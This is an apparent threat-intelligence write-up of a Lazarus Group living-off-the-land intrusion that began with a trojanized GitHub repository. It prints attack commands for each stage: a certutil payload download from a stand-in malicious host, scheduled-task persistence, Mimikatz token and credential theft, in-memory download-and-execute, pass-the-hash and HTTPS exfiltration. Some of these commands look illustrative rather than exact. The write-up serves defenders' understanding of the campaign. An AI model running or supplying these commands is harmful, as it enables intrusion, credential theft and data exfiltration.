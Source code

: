 ### Technical Details
The Lazarus Group executed this LOTL attack in a multi-stage process, focusing on stealth and the abuse of legitimate system functionalities.

**Initial Access:** The attack began with the creation of a fake GitHub repository hosting a trojanized version of a popular open-source tool. Developers and Web3 organizations in Europe unknowingly downloaded and installed this infected software due to GitHub being a trusted platform. The initial malware was designed to bypass antivirus detection by masquerading as a legitimate working tool.

**Persistence:** Once executed, the malware established persistence using built-in Windows utilities:
*   **CertUtil Abuse:** The legitimate `certutil.exe` tool, intended for certificate management, was misused to download the next-stage payload from a malicious server. The command `certutil -urlcache -split -f http://malicious.com/payload.exe C:\Windows\Temp\payload.exe` was executed silently to download and store the subsequent payload without triggering antivirus alerts.
*   **Scheduled Tasks and Registry Run Keys:** The attackers created background processes that would automatically run malicious scripts at system startup. The `schtasks` command was used to create a scheduled task disguised as a legitimate Windows Update process: `schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\payload.ps1" /sc minute /mo 30`. This PowerShell command, with the `-ExecutionPolicy Bypass` parameter, allowed the execution of the malicious payload (`payload.ps1`) located in the temporary directory every 30 minutes.

**Privilege Escalation:** After gaining an initial foothold, the attackers aimed to obtain administrator-level control to access more sensitive parts of the system:
*   **PowerShell Exploits:** PowerShell was used to execute commands without typical security restrictions, likely leveraging known vulnerabilities or misconfigurations.
*   **DLL Hijacking:** Malicious Dynamic Link Library (DLL) files were used to replace legitimate ones, likely facilitated by PowerShell, allowing the execution of malicious code under the context of trusted processes.
*   **Token Manipulation:** The attackers employed Mimikatz, a known tool for password theft, to steal security tokens and impersonate administrator users. The command `Invoke-Mimikatz -Command ' "privilege::debug" "sekurlsa::tokens" '` run within PowerShell was used to achieve this. The `"privilege::debug"` command elevates the process privileges, and `"sekurlsa::tokens"` extracts security tokens from the Local Security Authority Subsystem Service (LSASS) process.

**Credential Access:** With elevated privileges, the attackers focused on obtaining login credentials for lateral movement:
*   **Mimikatz Executed In-Memory:** To avoid detection of the `mimikatz.exe` executable, the attackers downloaded and executed Mimikatz directly from memory using PowerShell. The command `Invoke-Expression (IEX (New-Object Net.WebClient).DownloadString("https://github.com/gentilkiwi/mimikatz/raw/master/mimikatz.ps1"))` downloads the Mimikatz PowerShell script from a GitHub repository and executes it immediately in memory.
*   **Pass-the-Hash Attack:** Stolen password hashes were used to authenticate to other machines on the network without needing the actual passwords. The `psexec` tool was likely used to facilitate this lateral movement with the command format `psexec \\victim1-pc -u admin -H aad3b435b51404eeaad3b435b51404ee -c cmd.exe`, where `-H` specifies the NTLM hash.

**Data Exfiltration:** Once they had control over the network, the attackers exfiltrated sensitive information while attempting to evade detection:
*   **Data Compression and Encryption:** Files were compressed (using tools like `Compress-Archive -Path C:\stolen_data\* -DestinationPath C:\Windows\Temp\file.zip` in PowerShell) and likely encrypted to make detection and analysis more difficult during transit.
*   **Exfiltration over HTTPS:** Stolen files were uploaded to legitimate cloud storage services like OneDrive, disguising the traffic as normal file backups. The PowerShell command `Invoke-WebRequest -Uri "https://onedrive.com/upload" -Method POST -InFile "C:\Windows\Temp\file.zip"` demonstrates this technique.
